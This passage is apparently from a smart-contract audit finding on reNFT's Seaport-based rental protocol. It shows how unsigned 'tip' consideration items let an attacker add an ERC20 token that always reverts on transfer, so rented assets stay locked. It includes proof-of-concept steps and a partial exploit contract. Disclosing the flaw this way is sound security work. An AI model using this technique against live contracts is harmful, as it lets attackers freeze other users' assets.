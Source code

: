 ```solidity
```

Thus we can see that when deriving the order hash the extra consideration items are ignored, which is what allows the original signature of the offerer to match. However, in the [`ZoneParameters`](https://github.com/re-nft/seaport-core/blob/3bccb8e1da43cbd9925e97cf59cb17c25d1eaf95/src/lib/rental/ConsiderationStructs.sol#L21) passed on to the zone, all consideration items are included in one array, and there is no obvious way to distinguish tips from original items:
```solidity
struct ZoneParameters {
    bytes32 orderHash;
    address fulfiller;
    address offerer;
    SpentItem[] offer;
    ReceivedItem[] consideration;
    // the next struct member is only available in the project's fork
    ReceivedItem[] totalExecutions;
    bytes extraData;
    bytes32[] orderHashes;
    uint256 startTime;
    uint256 endTime;
    bytes32 zoneHash;
}
```

Finally, while the `validateOrder()` function in the `Create` contract verifies that the order fulfillment has been signed by the reNFT signer, the signed `RentPayload` does not depend on the consideration items, hence tipping is still possible.

The vulnerability arises when this capability is exploited to add a malicious ERC20 token to the `consideration` array. This malicious token can be designed to revert on transfer, causing the rental stop process to fail. As a result, the rented assets remain locked in the rental safe indefinitely.

### Proof of Concept
We can validate the vulnerability through an additional test case for the `Rent.t.sol` test file. This test case will simulate the exploit scenario and confirm the issue by performing the following actions:
1. Create a `BASE` order with Alice as the offerer.
2. Finalize the order creation.
3. Create an order fulfillment with Bob as the fulfiller.
4. Append a malicious ERC20 token to the `consideration` array of the order.
5. Finalize the order fulfillment.
6. Attempt to stop the rent, which will fail due to the revert on transfer from the escrow.

A simple exploit contract could look as follows:
```solidity
pragma solidity ^0.8.20;

import {ERC20} from "@openzeppelin-contracts/token/ERC20/ERC20.sol";

// This mock ERC20 will always revert on `transfer`
contract MockRevertOnTransferERC20 is ERC20 {
    constructor() ERC20("MockAlwaysRevertERC20", "M_AR_ERC20") {}

    function mint(address to, uint256 amount) public {
        _mint(to, amount);
    }

    function burn(address to, uint256 amount) public {
        _burn(to, amount);
    }

    function transfer(address, uint256) public pure override returns (bool) {
        require(false, "transfer() revert");
        return false;
    }
```